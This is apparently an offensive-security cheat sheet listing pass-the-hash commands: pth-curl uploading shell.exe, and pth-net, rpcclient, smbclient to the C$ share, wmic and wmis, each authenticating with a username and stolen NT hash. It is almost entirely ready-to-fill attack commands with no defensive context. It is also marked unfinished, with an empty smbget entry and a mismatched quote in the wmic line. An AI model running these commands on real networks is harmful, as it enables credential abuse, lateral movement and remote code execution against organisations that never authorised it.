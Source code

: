 # Pass-The-Hash Toolkits

TODO: Fill the missing information

## 01 - cURL

`$ pth-curl -A <user_agent> -T shell.exe <URL> -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP>`

## 02 - Net

`$ pth-net -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP>`

## 03 - Rpcclient

`$ pth-rpcclient -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP>`

## 04 - Smbclient

`$ pth-smbclient -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP>/c$`

## 05 - Smbget

`$ pth-smbget`

## 06 - WMIC

`$ pth-wmic -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP> "<WQL Queries>'`

## 07 - WMIS

`$ pth-wmis -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP>`